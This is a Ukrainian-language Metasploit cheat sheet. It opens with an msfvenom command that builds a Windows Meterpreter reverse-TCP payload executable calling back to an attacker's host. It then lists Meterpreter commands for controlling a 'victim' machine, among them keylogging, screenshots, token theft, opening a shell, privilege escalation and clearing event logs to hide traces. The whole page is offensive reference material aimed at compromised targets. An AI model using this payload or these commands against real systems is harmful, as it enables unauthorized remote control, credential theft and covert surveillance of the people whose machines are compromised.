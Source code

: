 ## Створення payload:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -a x64 -o /home/kali/payload.exe

## Основні команди Meterpreter:

**?** — меню допомоги  
**background** — переносить поточний сеанс в фоновий режим.  
**bgkill** — завершує фоновий скрипт meterpreter.  
**bglist** — відображає список всіх запущених фонових скриптів.  
**bgrun** — запускає скрипт як фоновий потік.  
**channel**  — відображає активні канали.  
**close** — закриває канал.  
**exit** — завершує севнс роботи з meterpreter.  
**help** — меню довідки.  
**interact** — взаємодіє з каналом.  
**irb** — перейти в режим сценарію Ruby.  
**migrate** — переносить активний процес на указаний PID.  
**quit** — завершує сеанс meterpreter.  
**read** — читає дані з каналу.  
**run** — виконує створений після нього скрипт meterpreter.  
**use** — завантажує розширення meterpreter.  
**write** — записує дані в канал.  

## Команди файлової системи

**cat** — читання і виведення вмісту файлу.  
**cd** — перейти в папку.  
**del** — видалити файл.  
**download** — завантажити файл з системи на свій ПК.  
**edit** — редагувати файл за допомогою vim.  
**getlwd** — показати локальний каталог.  
**getwd** — показати робочий каталог.  
**lcd** — змінити локальний каталог.  
**lpwd** — відобразити шлях локальної директорії.  
**ls** — список файлів в поточному каталозі.  
**mkdir** — створити каталог.  
**pwd** — відобразити шлях кореневого каталогу до до поточного робочого каталогу.  
**rm** — видалити файл.  
**rmdir** — видалити каталог в жертви.  
**upload** — завантажити файл зі своєї системи на на поточну машину.  

## Мережеві команди Meterpreter:

**clearav** — очищуэ журнал подый на комп'ютері жертви.  
**execute** — виконує команду.  
**getpid** — отримує ідентифікатор поточного процесу (PID).  
**getprivs** — отримує максимально можливі привілегії.  
**getuid** — отримати користувача від якого запущений сервер.  
**kill** — завершити процес, позначений PID.  
**ps** — список запущених процесів.  
**reboot** — перезавантажує комп'ютер жертви.  
**reg** — взаємодіяти з реєстром жертви.  
**rev2self** — викликає RevertToSelf () на машині жертви.  
**shell** — відкриває командний рядок на машині жертви.  
**shutdown** — виключає комп'ютер жертви.  
**steal_token** — намгається викрасти токен вказаного (PID) процесу.  
**sysinfo** — отримує детальну інформацію про комп'ютер жертви, таку ​як ОС і ім'я комп'ютера.  

## Команди користувацького інтерфейсу:  
**enumdesktops** — список всіх доступних робочих столів.  
**getdesktop** —отримати поточний робочий стіл meterpreter.  
**idletime** — перевіряє, скільки часу система жертви була в простої.  
**keyscan_dump** — вивантажує змість програмного забезпечення келогеру.  
**keyscan_start** — запускає програмний кейлогер, коли він звязаний з процесом, таким як Word чи браузер.  
**keyscan_stop** — зупиняє програмний кейлогер.  
**screenshot** — робить знімок екрану робочого столу meterpreter.  
**set_desktop** — змінює робочий стіл meterpreter.  
**uictl** — дозволяє керувати деякими компонентами користувацького інтерфейсу.  

## Команди підвищення привілеїв:

**getsystem** — використовує 15 встроєних методів для отримання привілеїв системного адміністратора.



